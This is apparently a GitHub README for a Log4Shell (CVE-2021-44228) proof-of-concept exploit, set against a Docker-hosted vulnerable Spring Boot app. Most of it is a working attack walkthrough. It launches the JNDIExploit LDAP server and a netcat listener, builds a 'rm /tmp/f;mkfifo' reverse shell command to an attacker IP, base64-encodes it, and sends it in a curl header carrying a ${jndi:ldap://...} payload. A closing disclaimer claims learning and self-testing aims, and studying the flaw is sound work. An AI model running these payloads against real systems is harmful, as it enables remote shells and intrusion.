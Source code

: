 # LOg4j

A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability.

Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.

## Proof-of-concept (POC)

#### Step 1 : Run Docker File which Include SpringBoot Vulnerable Application

```bash
cd log4shell-vulnerable-app
sudo docker run --rm -it -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```

#### Step 2 : Run the LDAP Server and Http Server

```bash
cd Log4shell_JNDIExploit
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i <Your Attacking Machine IP>
```

#### Step 3 : Run the netcat Listner where you get reverse shell

```bash
nc -lvp <Port you want for Listner>
```

#### Step 4 Curl the Application with Malicious Code

```bash
[+] Step 1 : goto https://ssl-proxy.my-addr.org/myaddrproxy.php/https/www.revshells.com/
[+] Step 2 : Enter your Attacking Machine IP and Netcat Port which you have used before
[+] Step 3 : Select nc mkfifo in shell Type
[+] Step 4 : Copy the command which look like "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.119.21.67 1188 >/tmp/f"
[+] Step 5 : goto https://gchq.github.io/CyberChef/
[+] Step 6 : Select To Base64 and Enter "A-Za-z0-9-_" in Alphabet
[+] Step 7 : Paste the command you had copied from Reverse Shell Generator and Paste it in Input Box
[+] Step 8 : Copy the String from the Output box that is the Base64 encoding of the Malicious Command which will lead you to Remote shell
[+] Step 9 : Form a Curl request in this manner ⇩
    curl -H 'X-Api-Version: ${jndi:ldap://<Attacking Machine IP>:1389/Basic/Command/Base64/<Base64 Command you just copied Step 8>}' http://localhost:8080
```

## Disclaimer

This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: https://log4shell.tools/).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.

## Reference
#### All Credits goes to the Developer
[log4shell-vulnerable-app] by christophetd</br>
[Log4shell_JNDIExploit] re-uploaded by black9

[log4shell-vulnerable-app]: https://github.com/christophetd/log4shell-vulnerable-app
[log4shell_jndiexploit]: https://github.com/black9/Log4shell_JNDIExploit.git
